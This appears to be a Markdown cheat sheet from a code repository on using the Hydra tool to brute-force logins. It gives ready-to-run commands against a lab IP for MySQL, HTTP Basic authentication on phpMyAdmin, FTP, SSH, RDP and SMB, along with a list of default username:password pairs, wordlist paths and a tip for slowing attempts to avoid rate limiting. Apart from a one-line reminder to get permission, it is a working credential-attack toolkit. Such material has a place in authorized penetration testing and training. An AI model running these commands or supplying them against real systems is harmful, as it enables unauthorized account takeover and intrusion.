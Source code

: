 # Hydra Cheat Sheet

This cheat sheet serves as a quick reference for using **Hydra** with different services, so you don't have to Google every time! 🚀

## 🔹 Brute-Forcing MySQL (Username:Password Pairs)

If your credential list is formatted as `username:password` (e.g., `root:mysql`), use the `-C` option:

```bash
hydra -C /tmp/default_mysql.txt -f mysql://192.168.129.74 -V -I
```

### **Example Credential List (`default_mysql.txt`)**
```
root:mysql
root:root
root:chippc
admin:admin
root:
root:nagiosxi
root:usbw
cloudera:cloudera
root:cloudera
root:moves
```

### **Options Explained:**
- `-C /tmp/default_mysql.txt` → Use a colon-separated (`username:password`) credential list.
- `-f` → Stop on first valid login.
- `mysql://192.168.129.74` → Target MySQL service on the given IP.
- `-V` → Show each login attempt.
- `-I` → Ignore failures and keep going.

---

## 🔹 Brute-Forcing HTTP Basic Authentication (`http-get`)

For services using **Basic Authentication**, you can brute-force credentials like this:

```bash
hydra -L users.txt -P passwords.txt 192.168.129.74 http-get /phpmyadmin
```

### **With Custom Headers (e.g., User-Agent & Cookies)**
If the target requires custom headers, use `-m`:

```bash
hydra -L users.txt -P passwords.txt 192.168.129.74 http-get "/phpmyadmin" -m "User-Agent: Mozilla/5.0\nCookie: PHPSESSID=abcd1234"
```

### **Using Username:Password List (`username:password` Format)**
If your list has `username:password` pairs, use `-C`:

```bash
hydra -C creds.txt 192.168.129.74 http-get /phpmyadmin
```

---

## 🔹 More Hydra Examples

### **FTP Bruteforce**
```bash
hydra -L users.txt -P passwords.txt ftp://192.168.129.74 -V
```

### **SSH Bruteforce**
```bash
hydra -L users.txt -P passwords.txt ssh://192.168.129.74 -t 4 -V
```

### **RDP Bruteforce**
```bash
hydra -L users.txt -P passwords.txt rdp://192.168.129.74 -V
```

### **SMB Bruteforce**
```bash
hydra -L users.txt -P passwords.txt smb://192.168.129.74 -V
```

---

## 🔹 Useful Wordlists
- **RockYou** (Common Passwords): `/usr/share/wordlists/rockyou.txt`
- **SecLists Default Creds**: `SecLists/Passwords/Default-Credentials/`

---

### **📌 Notes:**
- Always use **ethical hacking practices** and ensure you have permission before testing.
- If the target has **rate-limiting**, reduce the speed with `-t 1 -w 30`.

🚀 Happy Hunting! 💀
